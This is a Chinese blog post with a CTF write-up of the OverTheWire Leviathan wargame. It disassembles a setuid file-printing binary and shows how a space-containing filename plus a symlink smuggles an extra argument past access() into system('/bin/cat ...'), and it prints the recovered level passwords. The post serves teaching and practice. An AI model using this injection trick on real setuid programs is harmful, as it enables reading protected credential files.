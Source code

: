 ========================================
 OverTheWire Leviathan
========================================

.. post:: 2016-01-01
   :tags: CTF
   :author: LA
   :language: zh_CN

.. hint:: 这是一篇迁移自 Jekyll 的文章，如有格式问题，可到 :ghrepo:`SilverRainZ/bullet` 反馈

地址: `OverTheWire: Leviathan <http://overthewire.org/wargames/leviathan/>`_.

说实话题目不难，可是从开始做题到做完的时间跨度却有一个多月，人家 rr 却做了一会儿就搞定了，我都在干嘛呢？

完整的笔记在 `这里 <https://github.com/SilverRainZ/no-silver-bullet/blob/master/ctf/wargame-leviathan/wargame-leviathan.md>`_\ ，
其中有点意思的是 leviathan3，所以特地摘抄出来：

登入机器后发现家目录有个带 `suid` 权限的可执行文件 `printfile`\ ，属主是 `leviathan3`\ ，用户组是 `leviathan2`\ ，带 `suid` 的程序执行时可以获得和 owner/grouper 相同的权限（euid/egid）。

.. code:: text

   leviathan2@melinda:~$ ll printfile  
   -r-sr-x--- 1 leviathan3 leviathan2 7498 Nov 14  2014 printfile*
   leviathan2@melinda:~$ ./printfile 
   *** File Printer ***
   Usage: ./printfile filename
   leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
   You cant have that file...

从字面意思上看，这个程序接受一个文件路径然后把文件的内容显示出来，但是要求它打印 `/etc/leviathan_pass/leviathan3` 却提示 `You cant have that file...`\ ，上 gdb 分析看看。

以下是 `diaasm main` 的结果，假设执行了 `r filename`\ ：

.. code:: objdump

   0x0804852d <+0>:     push   %ebp
   0x0804852e <+1>:     mov    %esp,%ebp
   0x08048530 <+3>:     and    $0xfffffff0,%esp
   0x08048533 <+6>:     sub    $0x230,%esp
   0x08048539 <+12>:    mov    0xc(%ebp),%eax           ; argv 参数地址
   0x0804853c <+15>:    mov    %eax,0x1c(%esp)          ; argv 保存到 [esp + 0x1c]
   0x08048540 <+19>:    mov    %gs:0x14,%eax            ; Thread-Local Storage, 不知道是什么
   0x08048546 <+25>:    mov    %eax,0x22c(%esp)
   0x0804854d <+32>:    xor    %eax,%eax
   0x0804854f <+34>:    cmpl   $0x1,0x8(%ebp)           ; argc 和 1 比较，此处 argc 应该为 2
   0x08048553 <+38>:    jg     0x804857e <main+81>      ; / argc > 1 则跳 
   0x08048555 <+40>:    movl   $0x8048690,(%esp)
   0x0804855c <+47>:    call   0x80483d0 <puts@plt>
   0x08048561 <+52>:    mov    0x1c(%esp),%eax
   0x08048565 <+56>:    mov    (%eax),%eax
   0x08048567 <+58>:    mov    %eax,0x4(%esp)
   0x0804856b <+62>:    movl   $0x80486a5,(%esp)
   0x08048572 <+69>:    call   0x80483b0 <printf@plt>
   0x08048577 <+74>:    mov    $0xffffffff,%eax
   0x0804857c <+79>:    jmp    0x80485e8 <main+187>

   ; -> 来自 0x08048553 <+38> 的跳转，以上代码不必分析了
   0x0804857e <+81>:    mov    0x1c(%esp),%eax          ; 取出储存的 argv
   0x08048582 <+85>:    add    $0x4,%eax                ; 移动到 argv 的第一个参数（从 0 计数）
   0x08048585 <+88>:    mov    (%eax),%eax              ; 取出 argv[1] 的值，指向字符串 ‘filename’
   0x08048587 <+90>:    movl   $0x4,0x4(%esp)           ; 参数二：int amode
   0x0804858f <+98>:    mov    %eax,(%esp)              ; | argv[1] 作参数一： char *path
   0x08048592 <+101>:   call   0x8048420 <access@plt>   ; / access(argv[1], 4)，成功返回 0
   0x08048597 <+106>:   test   %eax,%eax
   0x08048599 <+108>:   je     0x80485ae <main+129>     ; 跳
   0x0804859b <+110>:   movl   $0x80486b9,(%esp)
   0x080485a2 <+117>:   call   0x80483d0 <puts@plt>
   0x080485a7 <+122>:   mov    $0x1,%eax
   0x080485ac <+127>:   jmp    0x80485e8 <main+187>

   ; -> 来自 0x08048599 <+108> 的跳转
   0x080485ae <+129>:   mov    0x1c(%esp),%eax          ; \
   0x080485b2 <+133>:   add    $0x4,%eax                ; | 取得 argv[1]
   0x080485b5 <+136>:   mov    (%eax),%eax              ; /
   0x080485b7 <+138>:   mov    %eax,0xc(%esp)           ; ...: argv[1]
   0x080485bb <+142>:   movl   $0x80486d4,0x8(%esp)     ; | char *format: string "/bin/cat %s"
   0x080485c3 <+150>:   movl   $0x1ff,0x4(%esp)         ; | size_t size: 511
   0x080485cb <+158>:   lea    0x2c(%esp),%eax          ; | 
   0x080485cf <+162>:   mov    %eax,(%esp)              ; | char *str
   0x080485d2 <+165>:   call   0x8048410 <snprintf@plt> ; / snprintf(str, 511, "/bin/cat %s", argv[1]);
   0x080485d7 <+170>:   lea    0x2c(%esp),%eax
   0x080485db <+174>:   mov    %eax,(%esp)              ; \
   0x080485de <+177>:   call   0x80483e0 <system@plt>   ; / system("/bin/cat filename");
   0x080485e3 <+182>:   mov    $0x0,%eax
   0x080485e8 <+187>:   mov    0x22c(%esp),%edx
   0x080485ef <+194>:   xor    %gs:0x14,%edx
   0x080485f6 <+201>:   je     0x80485fd <main+208>
   0x080485f8 <+203>:   call   0x80483c0 <__stack_chk_fail@plt>
   0x080485fd <+208>:   leave  
   0x080485fe <+209>:   ret

可以看到程序接受一个文件路径，先检查对该文件的访问权限，然后执行 shell 命令 "/bin/cat filename"。

问题出在 `access` 函数， man 是这样说的：

..

   The access() function shall check the file named by the pathname pointed to by the path argument for accessibility according to the bit pattern contained in amode, *using the real user ID in place of the effective user ID and the real group ID in place of the effective group ID.*


而 `suid` 权限改变的只是进程的 `euid`\ ，因此当你执行 `./printfile /etc/leviathan_pass/leviathan3` 的时候，access 函数总是失败的。

但是用 gdb 改变程序的流程也是\ `\ *不可行* <http://unix.stackexchange.com/questions/15911/can-gdb-debug-suid-root-programs>`_\ 的，非 root 的 gdb 调试带 suid 权限的程序时，程序不会获得本来应该有的权限（否则 gdb 就可以任意地改变程序的行为了），即使绕过了 access 函数，你依然会得到一个 `Permission denied`\ 。

到这里我就没辙了，只能看别人的 writeup 了：\ `OverTheWire Leviathan Wargame Solution 2 <https://rundata.wordpress.com/2013/03/27/overthewire-leviathan-wargame-solution-2/>`_\ ，看完发现脑洞确实不够大。

*Solution:*

access() 接受的是个字符串参数，而 cat 的参数却是由 shell 处理的，执行 `./printfile "flag here"`\ ，对于 access 函数来说是执行了 `access("flag here", 4)`\ , 检查对 `flag here` 这个文件的访问权限，而对 cat 来说是这样的 `system("cat flag here")`\ ，因此可以利用这个区别来绕过 access 函数。

.. code:: shell

   leviathan2@melinda:/tmp$ mkdir slove
   leviathan2@melinda:/tmp$ cd slove
   leviathan2@melinda:/tmp/slove$ touch 'flag here'    # 带空格的文件名
   leviathan2@melinda:/tmp/slove$ ln -s /etc/leviathan_pass/leviathan3 flag
   leviathan2@melinda:/tmp/slove$ ls
   flag  flag here
   leviathan2@melinda:/tmp/slove$ ~/printfile 'flag here'  # access 检测的是刚刚建立的新文件， cat 显示的则是 flag 和 here
   Ahdiemoo1j
   /bin/cat: here: No such file or directory

另外发现了一个新工具 ltrace，能够跟踪库函数的调用，就不用像刚才那样分析整个程序了（后面的题目大多数是过一遍 ltrace 就行了）：

.. code:: shell

   leviathan2@melinda:~$ ltrace ~/printfile /etc/leviathan_pass/leviathan2
   __libc_start_main(0x804852d, 2, 0xffffd6f4, 0x8048600 <unfinished ...>
   access("/etc/leviathan_pass/leviathan2", 4)                                       = 0
   snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
   system("/bin/cat /etc/leviathan_pass/lev"...ougahZi8Ta
    <no return ...>
   --- SIGCHLD (Child exited) ---
   <... system resumed> )                                                            = 0
   +++ exited (status 0) +++

元旦快乐，希望新的一年不要那么痛苦了。
